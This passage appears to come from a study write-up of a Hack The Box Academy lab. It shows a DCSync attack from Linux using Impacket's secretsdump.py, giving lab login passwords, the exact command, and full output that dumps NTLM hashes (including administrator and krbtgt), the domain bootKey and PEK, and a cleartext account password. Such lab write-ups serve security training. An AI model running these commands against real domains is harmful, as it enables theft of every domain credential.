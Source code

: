 ```powershell
```

**✅ Confirmed**: adunn has all required DCSync privileges!

---

## 🐧 **DCSync from Linux - secretsdump.py**

### **Impacket secretsdump.py Overview**

Impacket's `secretsdump.py` is the **go-to tool** for DCSync attacks from Linux. It can extract:
- NTLM password hashes
- Kerberos encryption keys
- Cleartext passwords (if reversible encryption is enabled)
- Password history
- Machine account hashes

### **Basic DCSync Execution**

```bash
# SSH to Linux host from Windows (if needed)
ssh htb-student@172.16.5.225
# Password: HTB_@cademy_stdnt!

# Basic DCSync attack to extract all domain hashes
secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5
# When prompted, enter: SyncMaster757
```

**Real Output:**
```bash
kabaneridev@htb[/htb]$ secretsdump.py -outputfile inlanefreight_hashes -just-dc INLANEFREIGHT/adunn@172.16.5.5 

Impacket v0.9.23 - Copyright 2021 SecureAuth Corporation

Password:
[*] Target system bootKey: 0x0e79d2e5d9bad2639da4ef244b30fda5
[*] Searching for NTDS.dit
[*] Registry says NTDS.dit is at C:\Windows\NTDS\ntds.dit. Calling vssadmin to get a copy. This might take some time
[*] Using smbexec method for remote execution
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: a9707d46478ab8b3ea22d8526ba15aa6
[*] Reading and decrypting hashes from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
inlanefreight.local\administrator:500:aad3b435b51404eeaad3b435b51404ee:88ad09182de639ccc6579eb0849751cf:::
guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
lab_adm:1001:aad3b435b51404eeaad3b435b51404ee:663715a1a8b957e8e9943cc98ea451b6:::
ACADEMY-EA-DC01$:1002:aad3b435b51404eeaad3b435b51404ee:13673b5b66f699e81b2ebcb63ebdccfb:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:16e26ba33e455a8c338142af8d89ffbc:::
ACADEMY-EA-MS01$:1107:aad3b435b51404eeaad3b435b51404ee:06c77ee55364bd52559c0db9b1176f7a:::
ACADEMY-EA-WEB01$:1108:aad3b435b51404eeaad3b435b51404ee:1c7e2801ca48d0a5e3d5baf9e68367ac:::
inlanefreight.local\htb-student:1111:aad3b435b51404eeaad3b435b51404ee:2487a01dd672b583415cb52217824bb5:::
inlanefreight.local\avazquez:1112:aad3b435b51404eeaad3b435b51404ee:58a478135a93ac3bf058a5ea0e8fdb71:::

<SNIP>

[*] ClearText password from \\172.16.5.5\ADMIN$\Temp\HOLJALFD.tmp 
proxyagent:CLEARTEXT:Pr0xy_ILFREIGHT!
[*] Cleaning up...
```
